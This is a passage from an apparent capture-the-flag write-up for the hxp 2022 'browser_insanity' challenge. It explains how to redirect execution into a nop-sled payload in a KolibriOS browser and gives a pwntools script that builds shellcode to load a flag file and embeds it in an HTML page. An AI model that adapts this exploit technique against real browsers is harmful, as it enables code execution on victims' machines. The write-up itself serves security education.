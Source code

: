 
As we can see, `esi` register points to our data, so we want to jump to `0x31c54b` (`1\xc5K`), so the `K` will be turned into `k`, which means that the code will jump to `0x31c56b`. We can handle that by putting a bunch of `nop`s in our payload. We also want to load a file into memory, so we have to use some syscalls to do it. Quick look at the docs reveals needed syscall:

```
======================================================================
========== Function 68, subfunction 27 - load file ===================
======================================================================
Parameters:
  * eax = 68 - function number
  * ebx = 27 - subfunction number
  * ecx = pointer to the string with path to file,
    rules of path forming can be found in function 70 description.
Returned value:
  * eax = pointer to the loaded file, or zero
  * edx = size of the loaded file, or zero
Remarks:
  * function loads file and unpacks, if necessary
  * Before this call one must initialize process heap by call to
    subfunction 11.  
```

Code for crafting the payload has the following form (it is also available on my [GitHub](https://github.com/rivit98/ctf-writeups/tree/master/2022/hxpctf/browser_insanity)):

```python
from pwn import *

with open("index.html", 'rb') as f:
    templ = f.read()

payload_start = 0x31c552
str_addr = payload_start+0x80
flag_location = b'/hd0/1/flag.txt\0'

context.arch = 'i386'
payload = asm('nop') * 0x30 +  asm(f"""
mov eax, 0x44
mov ebx, 0x1b
mov ecx, {str_addr}
int 0x40
""")

padding = (str_addr - payload_start) - len(payload)
payload += b'\x90' * padding
payload += flag_location

templ = templ.replace(b'REPLACE', payload).replace(b'JUMP_ADDR', p32(payload_start).replace(p8(0), b''))

with open("index.html2", 'wb') as f:
    f.write(templ)
```
